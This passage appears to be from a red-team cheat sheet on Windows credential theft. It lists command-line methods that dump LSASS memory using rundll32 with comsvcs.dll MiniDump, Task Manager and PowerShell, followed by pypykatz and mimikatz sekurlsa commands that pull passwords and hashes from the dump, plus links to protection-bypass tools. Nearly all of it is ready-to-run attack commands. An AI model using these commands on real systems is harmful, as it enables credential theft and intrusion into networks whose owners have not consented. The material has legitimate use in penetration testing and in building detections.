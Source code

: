 - **Method 2:** Living off the Land technique

```
C:\> rundll32.exe Comsvcs.dll,Minidump "<lsass_pid> hashmem.dmp full"

C:\> rundll32.exe C:\Windows\System32\Comsvcs.dll,Minidump <lsass_pid> hashmem.dmp full

C:\> powershell.exe -ep bypass Get-Process lsass C:\Windows\System32\Taskmgr.exe /dumpfile=C:\lsass.dmp /pid=<pid>

cmd.exe /Q /c for /f "tokens=1,2 delims= " %%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do rundll32.exe C:\windows\System32\comsvcs.dll, #+000024 %%B \Windows\Temp\*.* full
```

```
PS C:\> rundll32.exe Comsvcs.dll,Minidump ((Get-Process lsass).Id) hashmem.dmp full
```

#### 3.5.2 - Dump credentials

- **Method 1:** Using pypykatz

```
$ pypykatz lsa minidump hashmem.dmp

$ pypykatz lsa -k /path/to/file_creds minidump hashmem.dmp

$ pypykatz lsa --json minidump $i | jq 'first(.[]).logon_sessions | keys[] as $k | (.[$k] | .credman_creds)' | grep -v "\[\]" | grep -v "^\[" | grep -v "^\]"
```

- **Method 2:** Directly dump credentials in mimikatz

```
mimikatz # sekurlsa::minidump hashmem.dmp
```

Create a log file

```
mimikatz # log dumpcreds.txt

mimikatz # sekurlsa::logonpasswords
```

---
## References

### Source Repositories

- [RedCursorSecurityConsulting: PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)

- [itm4n: PPLdump](https://github.com/itm4n/PPLdump)

- [HarmJ0y: Invoke-WdigestDowngrade.ps1](https://gist.github.com/HarmJ0y/8fdd2d3acfbe79b730db)
